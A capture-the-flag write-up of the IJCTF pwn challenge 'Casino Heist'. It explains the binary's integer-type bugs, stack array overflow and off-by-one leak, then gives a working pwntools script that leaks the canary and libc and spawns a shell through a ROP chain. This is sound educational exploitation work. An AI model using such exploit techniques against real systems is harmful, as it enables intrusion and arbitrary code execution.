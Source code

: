 IJCTF Pwn Challenge Writeup by Shiro (Pycatchown sometimes)
# Casino Heist

## Part 1 - Reverse engineering

The code is terrible (of course, it's a challenge).

Sometimes ints are used, sometime it's int64, sometimes it's signed, sometimes it's not, well, we quickly identify at least one of the vulnerabilities without even really digging into the code.

We have a wallet, this wallet starts at 20 dollars, we can bet at least 5 dollars and no more than our wallet. If we fall at 0, the program exits itself, we can jackpot, and we can double the bet sometimes by adding a "m" at the end of our number.
Each bets are append into a array of uint64, which is located into the stack. It's of size 10, and isn't bounded by anything, which means that if we can make more than 10 bets without go bankrupt, we can overflow this array.

I didn't noticed the last bug instantly because I didn't realized the binary was compiled with stack smashing protection, but there is also an off by one in the print_bets function, which prints one element too far.
```c
for ( i = 0; ; ++i )
  {
    result = (unsigned int)idx_jour;
    if ( i > idx_jour )
      break;
    printf("Bet #%d: Value %ld\n", (unsigned int)i, a1[i]);
  }
```
Here we can see the condition is to break when i is strictly superior to idx_jour (the index used on the array we can overflow), since an array starts at 0, we can print one element too far.

## Part 2 - Exploitation

We're on a CTF so at this point I go straight away and fuzz a little, expecting the binary to bug out with negative or big values (thanks to the fact that the types are not coherent with each functions), so I did a little script that plays the binary over and over again until I win twice a bet with the maximum of my wallet, I tried to bet again with a value doubled, and I ended up with a negative wallet.

Since not everything is signed, that meant that my negative value was considered a very big number since the wallet on itself is stored within a uint64, which means that I could basically bet any values I wanted (well, almost). That also meant that I was not limited by luck anymore in order to apply as many bets as I wanted since my wallet was practically infinite.

So I tried to overflow the array of int64, and succeeded overflowing the binary until the saved rip.
However, the binary is compiled with stack protection flag, which means if we want to exploit, we'll have to either find a way not to overwrite the canary, or find a way to leak it.

Here comes the off by one on the print_bets function, which allows us to get the value we're about to overwrite before overwriting it.

At this point it's won. Since we have a leak we don't bother leaking anything thanks to the rop itself, we just leak the canary, the original value of the saved rsp (as we smash the main) so we can have a libc leak, and go straight for `execv("/bin/sh", NULL)`.

## 3 - Exploit code

```python
#!/usr/bin/env python
from pwn import *

exe = context.binary = ELF('boiler')
context.terminal = "gnome-terminal --geometry=110x60 -- bash -c".split(" ")


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("34.126.147.93", 2200)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


def exploit():
    offset_til_saved_rsp = 117

    for i in range(offset_til_saved_rsp-3):
        x = io.sendlineafter(b"Enter bet value: ", "5", timeout=5)
        print(x)
        if x == b"":
            io.interactive()

    ## Leaking canary/libc adress and overflowing
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #117: Value ")
    canary = int(io.recvline())
    print(hex(canary))
    io.sendlineafter(b"Enter bet value: ", str(canary))
    io.sendlineafter(b"Enter bet value: ", "5")
    print("a") # Don't mind, it's just a trick to make the remote IO working
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #119: Value ")
    libcleak = int(io.recvline())
    print(hex(libcleak))
    libc = ELF("./libc-2.31.so")
    libc.address = libcleak- 0x270b3
    ##

    ##Because I'm lazy (Rop writing into the stack)
    rop = ROP(libc)
    rop.execv(next(libc.search(b"/bin/sh\x00")), 0)
    x = rop.chain()
    payload = [x[i:i+8] for i in range(0, len(x), 8)]
    for gadget in payload:
        gadget = u64(gadget)
        io.sendlineafter(b"Enter bet value: ", str(gadget))
    ##
    io.sendline("x") # exit main loop
    io.interactive()


while 1:
    io = start()

    io.sendlineafter(b"name:\n", b"a")
    io.sendlineafter(b"value: ", b"20")
    res = io.recvline()
    if b"lose" in res:
        io.close()
        continue
    else:
        io.sendlineafter(b"value: ", b"40")
        res = io.recvline()
        print(res)
        if b"lose" in res:
            io.close()
            continue
        else:
            #context.log_level = "DEBUG"
            io.sendlineafter(b"value: ", b"80m")
            #gdb.attach(io, gdbscript="b *(unsigned long long*)(&main+1322)")
            exploit()
            io.interactive()
            io.close()
            exit(0)
```

Thanks to the author if this challenge, lionaneesh. We don't see a lots of type mis-management challenges and more generally, I enjoy challenges wich doesn't only rely in one vulnerability, so this was a fun one to me.
